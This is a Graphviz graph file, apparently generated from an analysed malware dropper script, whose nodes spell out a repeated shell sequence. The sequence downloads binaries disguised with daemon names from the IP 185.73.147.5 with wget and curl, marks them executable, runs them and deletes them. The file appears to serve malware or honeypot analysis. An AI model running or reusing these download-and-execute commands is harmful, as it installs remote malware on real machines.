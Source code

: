 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://185.73.147.5/privntpd1 "];
10 -> 12 [label=";,"];
12 [label="curl -O http://185.73.147.5/privntpd1 "];
12 -> 14 [label=";,"];
14 [label="chmod +x privntpd1 "];
14 -> 16 [label=";,"];
16 [label="./privntpd1 "];
16 -> 18 [label=";,"];
18 [label="rm -rf privntpd1 "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://185.73.147.5/privsshd1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://185.73.147.5/privsshd1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x privsshd1 "];
34 -> 36 [label=";,"];
36 [label="./privsshd1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf privsshd1 "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://185.73.147.5/privopenssh1 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://185.73.147.5/privopenssh1 "];
52 -> 54 [label=";,"];
54 [label="chmod +x privopenssh1 "];
54 -> 56 [label=";,"];
56 [label="./privopenssh1 "];
56 -> 58 [label=";,"];
58 [label="rm -rf privopenssh1 "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://185.73.147.5/privbash1 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://185.73.147.5/privbash1 "];
72 -> 74 [label=";,"];
74 [label="chmod +x privbash1 "];
74 -> 76 [label=";,"];
76 [label="./privbash1 "];
76 -> 78 [label=";,"];
78 [label="rm -rf privbash1 "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://185.73.147.5/privtftp1 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://185.73.147.5/privtftp1 "];
92 -> 94 [label=";,"];
94 [label="chmod +x privtftp1 "];
94 -> 96 [label=";,"];
96 [label="./privtftp1 "];
96 -> 98 [label=";,"];
98 [label="rm -rf privtftp1 "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://185.73.147.5/privwget1 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://185.73.147.5/privwget1 "];
112 -> 114 [label=";,"];
114 [label="chmod +x privwget1 "];
114 -> 116 [label=";,"];
116 [label="./privwget1 "];
116 -> 118 [label=";,"];
118 [label="rm -rf privwget1 "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://185.73.147.5/privcron1 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://185.73.147.5/privcron1 "];
132 -> 134 [label=";,"];
134 [label="chmod +x privcron1 "];
134 -> 136 [label=";,"];
136 [label="./privcron1 "];
136 -> 138 [label=";,"];
138 [label="rm -rf privcron1 "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://185.73.147.5/privftp1 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://185.73.147.5/privftp1 "];
152 -> 154 [label=";,"];
154 [label="chmod +x privftp1 "];
154 -> 156 [label=";,"];
156 [label="./privftp1 "];
156 -> 158 [label=";,"];
158 [label="rm -rf privftp1 "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://185.73.147.5/privpftp1 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://185.73.147.5/privpftp1 "];
172 -> 174 [label=";,"];
174 [label="chmod +x privpftp1 "];
174 -> 176 [label=";,"];
176 [label="./privpftp1 "];
176 -> 178 [label=";,"];
178 [label="rm -rf privpftp1 "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://185.73.147.5/privsh1 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://185.73.147.5/privsh1 "];
192 -> 194 [label=";,"];
194 [label="chmod +x privsh1 "];
194 -> 196 [label=";,"];
196 [label="./privsh1 "];
196 -> 198 [label=";,"];
198 [label="rm -rf privsh1 "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://185.73.147.5/privnut1 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://185.73.147.5/privnut1 "];
212 -> 214 [label=";,"];
214 [label="chmod +x privnut1 "];
214 -> 216 [label=";,"];
216 [label="./privnut1 "];
216 -> 218 [label=";,"];
218 [label="rm -rf privnut1 "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://185.73.147.5/privapache21 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://185.73.147.5/privapache21 "];
232 -> 234 [label=";,"];
234 [label="chmod +x privapache21 "];
234 -> 236 [label=";,"];
236 [label="./privapache21 "];
236 -> 238 [label=";,"];
238 [label="rm -rf privapache21 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://185.73.147.5/privtelnetd1 "];
250 -> 252 [label=";,"];
252 [label="curl -O http://185.73.147.5/privtelnetd1 "];
252 -> 254 [label=";,"];
254 [label="chmod +x privtelnetd1 "];
254 -> 256 [label=";,"];
256 [label="./privtelnetd1 "];
256 -> 257 [label=";,"];
}
